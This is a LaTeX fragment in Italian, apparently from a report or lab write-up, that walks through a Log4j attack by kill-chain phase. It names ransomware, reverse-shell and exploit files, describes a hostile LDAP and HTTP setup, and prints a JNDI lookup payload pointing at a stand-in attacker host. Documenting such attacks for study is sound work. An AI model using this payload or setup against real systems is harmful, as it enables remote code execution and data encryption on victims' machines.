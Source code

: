 \documentclass[a4paper, 12pt]{article}
\begin{document}
\begin{figure}
\centering
\includegraphics[width=1\textwidth]{img/dnslog.png}
\caption{Query DNS effettuate tramite JNDI}
\label{fig:dnslog}
\end{figure}

\subsubsection{Weaponization}
Questa fase consiste nel creare il malware per cifrare i dati e generare un payload per sfruttare la vulnerabilità identificata.
A tale scopo sono stati implementati i seguenti file:
\begin{itemize}
    \item \verb!Ransomware.java!: contiene il codice del malware che si occupa di cifrare i dati.
    \item \verb!ReverseShell.java!: contiene il codice per aprire una reverse shell sulla macchina avversaria.
    \item \verb!exploit.py!: avvia i servizi LDAP e HTTP sul server attaccante e genera il payload malevolo.
\end{itemize}

\subsubsection{Delivery}
In un attacco che sfrutta Log4j la fase di Delivery non è presente poiché la trasmissione e la seguente esecuzione del malware vengono effettuati durante l'exploit della vulnerabilità legata alla libreria di logging.


\subsubsection{Exploitation}
La fase principale dell'attacco viene attuata sfruttando la vulnerabilità di Log4j per ottenere una RCE. 
Lo script \verb!exploit.py! presente nel progetto ha lo scopo di:
\begin{itemize}
    \item Instanziare un server LDAP malevolo in ascolto sulla porta 1389.
    \item Compilare la classe Java da eseguire sulla macchina vittima ed hostare il file \verb!.class ! su un server HTTP in ascolto sulla porta 8000.
    \item Generare il payload malevolo per sfruttare la vulnerabilità, formattato come una stringa del tipo: 
    \begin{center}
        \verb!${jndi:ldap://attacker-ldap.com:1389/a}!
    \end{center}
\end{itemize}
\end{document}
